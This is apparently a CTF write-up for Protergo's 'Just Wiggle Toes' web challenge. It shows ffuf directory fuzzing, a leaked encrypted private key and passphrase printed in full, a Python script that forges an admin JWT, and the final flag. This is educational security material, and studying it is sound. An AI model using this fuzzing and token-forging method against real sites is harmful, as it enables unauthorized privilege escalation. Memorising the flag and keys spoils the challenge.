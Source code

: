 ```yaml
---
tags:
  - CTF
  - protergo
  - web-exploitation
  - jwt
  - information-disclosure
  - directory-fuzzing
title: Protergo CTF - [Just Wiggle Toes]
---
```

![[Screenshot 2024-02-08 at 23.41.07.png]]
# Prologue

An Individual local competition that held by [Protergo](https://protergo.id/)company. The competition was starting from 1st February until 8th February. This competition is only limited to students.
# Write Up

## TL;DR Solution

1. Fuzzing directory by using wordlist in the [SecList](https://github.com/danielmiessler/SecLists) with prefix `directory-*`
2. Found partial source code in the `LittleSecrets`
3. Forge JWT with the private key to achieve an admin role

## Detailed Explanation

A black box challenge. There's no source code in the challenge. 
![[Screenshot 2024-02-09 at 03.25.52.png]]

The player is only given an index page and there's no noteworthy feature in the page. So, I decides to fuzz the directory in the application.

Since the competition is really long enough, I decided to make a big wordlist from [SecList](https://github.com/danielmiessler/SecLists).

```bash
cat directory-list-* | uniq > directory-list-wildcard-uniq.txt
```

After that, I tried to fuzz the directory using `ffuf` and left it for a few days.
```bash
ffuf -w ~/payloads/SecLists/Discovery/Web-Content/directory-list-wildcard-uniq.txt -u "http://jakarta.ctf.protergo.party:10003/FUZZ" -fc 404
```

![[Pasted image 20240209033409.png]]

Visiting `/portal_login`, the player is given a login form and a register button.
![[Screenshot 2024-02-09 at 03.47.45.png]]

By registering and trying to log in, the player is given the information that the flag is in the admin role.
![[Screenshot 2024-02-09 at 03.51.09.png]]

Visiting `/LittleSecrets`, the player got sensitive information about the application.
![[Screenshot 2024-02-09 at 03.37.29.png]]

The most important thing is the `private.pem` file and `passphrase` file, this files will be used to forge the JWT to achieve privilege escalation.

`passphrase`
```
dd2c2aa5a5aad06d93ec17f93f2efcaf
```

`private.pem`
```cert
-----BEGIN ENCRYPTED PRIVATE KEY-----
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
-----END ENCRYPTED PRIVATE KEY-----
```

## Exploitation

When the player login, the player is given a sample JWT 
![[Screenshot 2024-02-09 at 04.00.45.png]]

As the picture above, the value of JWT is like this.
```json
{"iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login","iat":1707425463,"exp":1707429063,"nbf":1707425463,"jti":"bRzfk0JlcI2McTAe","sub":"34","prv":"3da04507aadf132cee732fdee4ef6aa390dec579","is_admin":0}
```

Since the goal is privilege escalation, the player only needs to modify the value `is_admin` into `1`. Players need to forge the JWT by using the information that is already gathered.

```python
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend
import jwt, requests, re
pem_bytes = open('./private.pem', 'rb').read()
passphrase = open('./passphrase', 'rb').read().strip()

private_key = serialization.load_pem_private_key(
    pem_bytes, password=passphrase, backend=default_backend()
)

URL = "http://jakarta.ctf.protergo.party:10003/"
encoded = jwt.encode({"iss":"http://jakarta.ctf.protergo.party:10003/api/portal_login","iat":1707296171,"exp":99999999999,"nbf":1707296171,"jti":"kKpu6PDBBCiuFhdA","sub":"29","prv":"3da04507aadf132cee732fdee4ef6aa390dec579","is_admin":1}, private_key, algorithm="RS256")

sess = requests.Session()
sess.get(f'{URL}')
res = sess.get(f'{URL}home', cookies={"auth": encoded})
r = re.compile(r'PROTERGO{.*}')
print(r.findall(res.text)[0])
```

![[Screenshot 2024-02-09 at 04.03.18.png]]

FLAG: `PROTERGO{f5016c424def47159321869c8e7ff4cac79b9e721c0d700cf7c0c8ab7f43b203}`